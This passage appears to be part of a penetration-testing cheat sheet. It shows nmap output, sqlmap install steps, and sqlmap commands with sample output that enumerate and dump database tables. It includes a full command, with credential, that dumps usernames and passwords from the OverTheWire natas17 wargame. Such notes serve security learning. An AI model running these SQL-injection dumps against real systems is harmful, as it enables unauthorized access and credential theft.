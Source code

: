```bash
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 20 hops
$ nmap {h} -p 40000-45000 # scan from ports 40000 to 45000
```

### References

- https://www.digitalocean.com/community/tutorials/how-to-use-nmap-to-scan-for-open-ports-on-your-vps

## sqlmap

### Install
Requires Python 2.*
```bash
$ git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
$ cd sqlmap-dev
$ python2 ./sqlmap.py
```

--auth-cred="natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw" --auth-type=BASIC -u "http://natas17.natas.labs.overthewire.org/index.php?username=natas17" --level 3 --dbms="MySQL 5.5" -p username --technique T -D natas17 -T users -C username,password --dump

### Usage
Find an injectable GET/POST param, such as `?user=love`.
```bash
$ sqlmap -x "url.com/sitemap.xml" # sitemap
$ sqlmap -d "mysql://admin:admin@192.168.21.17:3306/testdb" # SQL connection string for direct access
$ sqlmap -u "url.com?user=love" -p user # url with param
$ sqlmap -u "url.com?user=love" --auth-type=BASIC --auth-cred="clear_user:clear_pwd" # basic auth
$ sqlmap -u "url.com?user=love" --dbms="MySQL 5.5" # set the DNMS to MySQL to test only against it
$ sqlmap -u "url.com?user=love" -p user --level 3 --dbs # find databases
available databases [2]:
[*] information_schema
[*] pentest_me
$ sqlmap -u "url.com?user=love" -p user --level 3 -D pentest_me --tables # find tables
Database: pentest_me
[1 table]
+--------+
| table1 |
+--------+
$ sqlmap -u "url.com?user=love" -p user --level 3 -D pentest_me -T table1 --columns # find columns
Database: pentest_me
Table: table1
[2 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| col1     | varchar(64) |
| col2     | varchar(12) |
+----------+-------------+
$ sqlmap -u "url.com?user=love" -p user --level 3 -D pentest_me -T table1 -C "col1,col2" --dump # dump rows
Database: pentest_me
Table: table1
[3 entries]
+----------+----------------------------------+
| col1     | col2                             |
+----------+----------------------------------+
| user1    | 0xjsNNjGvHkb7pwgC6PrAyLNT0pYCqHd |
```